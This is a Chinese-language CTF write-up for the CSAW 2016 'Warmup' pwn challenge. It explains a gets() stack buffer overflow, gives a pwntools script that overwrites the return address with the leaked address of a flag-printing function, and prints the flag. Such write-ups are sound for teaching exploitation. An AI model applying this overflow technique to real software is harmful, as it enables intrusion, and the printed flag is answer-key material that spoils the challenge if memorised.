


# CSAW CTF 2016 Quals: Warmup

分類：Pwn 分數：50

說明：So you want to be a pwn-er huh? Well let's throw you an easy one ;)

- [warmup](https://github.com/ctfs/write-ups-2016/raw/master/csaw-ctf-2016-quals/Pwn/WarmUp-50/warmup)

## 解題

執行 binary 得到以下 output：

```
-Warm Up-
WOW:0x40060d
>
```

`WOW` 後面跟著的 address，用 Hopper Disassembler 找到是個叫 `easy` 的 function。這個 function 會執行 `system("cat flag.txt")`，所以只要 buffer overflow 覆寫 return address 到這個 address 就可以得到 flag。



這是題 50 分的熱身題，所以在 `main` 就能找到個簡單的 `gets()` buffer overflow bug。



64 bytes buffer，加上 stack 上的 8 bytes `$rbp`，總共要 72 bytes 去 overflow return address：

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8000)
r.recv()
r.sendline("A"*72 + p64(0x40060d))
print r.recvline()
```

完整解答：[warmup.py](warmup.py)

## Flag

```
FLAG{LET_US_BEGIN_CSAW_2016}
```

## 其他解答

- https://github.com/ctfs/write-ups-2016/blob/master/csaw-ctf-2016-quals/Pwn/WarmUp-50/README.md